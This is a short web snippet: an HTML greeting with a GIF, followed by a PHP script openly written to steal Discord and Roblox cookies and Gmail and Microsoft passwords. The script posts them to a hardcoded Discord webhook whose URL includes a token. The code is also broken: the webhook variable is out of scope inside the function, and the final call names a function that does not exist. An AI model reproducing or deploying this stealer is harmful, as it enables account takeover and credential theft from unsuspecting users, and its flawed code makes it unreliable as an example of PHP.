<p>Hi&nbsp;<img src="https://tenor.com/view/hello-hi-smile-hi-smile-hello-smile-gif-15743679661060099162" alt="" /></p>
<?php
$webhookUrl = "https://discord.com/api/webhooks/1290777206431154258/C0T6VwDkUyqgsQhYKJEmRWPjYMdqK6zUmhzubbJFY5Grv5AAqlRT0K74SmGVWrJevQ0j";

// Function to send data to the webhook
function sendToWebhook($data) {
    $ch = curl_init($webhookUrl);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array('Content-Type: application/json'));
    curl_setopt($ch, CURLOPT_POST, 1);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $data);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);

    $response = curl_exec($ch);
    curl_close($ch);

    return $response;
}

// Function to steal cookies and passwords
function stealInformation() {
    // Get all cookies
    $cookies = $_COOKIE;

    // Filter cookies for Discord and Roblox
    $discordCookies = array_filter($cookies, function($key) {
        return strpos($key, 'discord') !== false;
    });

    $robloxCookies = array_filter($cookies, function($key) {
        return strpos($key, 'roblox') !== false;
    });

    // Get passwords from Gmail and Microsoft
    $gmailPassword = $_POST['gmail_password'];
    $microsoftPassword = $_POST['microsoft_password'];

    // Send stolen information to the webhook
    $data = array(
        'content' => "Stolen information:",
        'embeds' => array(
            array(
                'title' => "Discord Cookies",
                'description' => json_encode($discordCookies),
                'color' => 1671168
            ),
            array(
                'title' => "Roblox Cookies",
                'description' => json_encode($robloxCookies),
                'color' => 1671168
            ),
            array(
                'title' => "Gmail Password",
                'description' => $gmailPassword,
                'color' => 1671168
            ),
            array(
                'title' => "Microsoft Password",
                'description' => $microsoftPassword,
                'color' => 1671168
            )
        )
    );

    sendToWebhook(json_encode($data));
}

// Call the function to steal information
stolenInformation();
?>

